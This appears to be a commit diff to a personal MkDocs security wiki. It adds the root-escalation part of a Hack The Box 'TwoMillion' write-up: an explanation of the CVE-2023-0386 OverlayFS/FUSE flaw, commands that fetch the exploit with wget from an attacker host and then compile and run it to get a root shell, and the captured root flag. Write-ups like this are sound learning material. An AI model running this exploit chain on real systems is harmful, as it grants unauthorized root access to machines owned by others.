

Before and after one commit to Fudomaru/wiki, an MkDocs documentation site: the page built from docs/challenges/htb/twomillion.md, in a window 1280 px wide and 1400 px high, scrolled down 7066 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 7696 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
2million box completed.

````diff
--- a/docs/challenges/htb/twomillion.md
+++ b/docs/challenges/htb/twomillion.md
@@ -346,3 +346,91 @@
 <!-- f30345b83af49629a0ff686124c80b8a -->
 
 **User flag captured.**
+
+---
+
+## Privilege Escalation to Root — CVE-2023-0386
+
+### What the exploit does
+
+The kernel has a flaw in how OverlayFS handles a copy-up operation when the lower layer is controlled by an unprivileged user through FUSE and a user namespace.
+
+The attack has three moving parts:
+
+- **getshell** — a tiny binary that calls `setuid(0)` and drops into a bash shell. Useless on its own, but deadly if it has `cap_setuid` on the real filesystem.
+- **fuse** — creates a fake filesystem using FUSE. When the kernel asks about the file inside it, it lies: claims the file is owned by root and has the SUID bit set. This is allowed because inside a user namespace the process appears as root.
+- **exp** — creates a user namespace, mounts OverlayFS with the FUSE filesystem as the read-only lower layer, then opens the file for writing. OverlayFS copies the file up to the real writable upper layer before allowing the write — and during that copy-up it faithfully copies the SUID bit and root ownership without checking whether the real user has any right to create such a file.
+
+After the copy-up, a real SUID root binary containing the getshell code sits on disk. Running it gives root.
+
+---
+
+### Transferring and compiling
+
+From the Kali machine, served the zip over HTTP:
+
+```bash
+python3 -m http.server 8000
+```
+
+On the box:
+
+```bash
+cd /tmp && mkdir .exp && cd .exp
+wget http://10.10.14.212:8000/CVE-2023-0386-main.zip
+unzip CVE-2023-0386-main.zip
+cd CVE-2023-0386-main
+make all
+```
+
+The Makefile handled everything — compiled `fuse`, `exp`, and `gc` (getshell) in one go. A few format string warnings from `fuse.c` but nothing that stops it from working.
+
+---
+
+### Running it
+
+First start the FUSE filesystem in the background, pointing it at the lower directory and the getshell binary:
+
+```bash
+./fuse ./ovlcap/lower ./gc &
+```
+
+Then run the exploit:
+
+```bash
+./exp
+```
+
+The output walked through every step — mount success, the FUSE callbacks firing as OverlayFS inspected the fake file, the copy-up happening, and then:
+
+```
+[+] exploit success!
+root@2million:/tmp/.exp/CVE-2023-0386-main#
+```
+
+Root shell.
+
+---
+
+### Root flag
+
+```bash
+cat /root/root.txt
+```
+
+```
+9a206fd3f0467aabbb13159dfad362bf
+```
+
+<!-- 9a206fd3f0467aabbb13159dfad362bf -->
+
+**Root flag captured. Box complete.**
+
+---
+
+!!! example "Conclusion"
+    A fun box with a clear chain from start to finish.
+    The invite code teaches you to look at JavaScript and think about what the client is calling.
+    The API enumeration rewards curiosity — just hitting `/api/v1` with a valid session handed me the whole map.
+    The admin escalation was a good reminder that broken access control does not always look dramatic.
+    The kernel exploit was the most interesting part — understanding CVE-2023-0386 properly before running it made the whole thing click.
````
Also changed, not shown: docs/challenges/htb/overview.md (+1 -1 lines), docs/notes/warboard.md (+1 -0 lines).
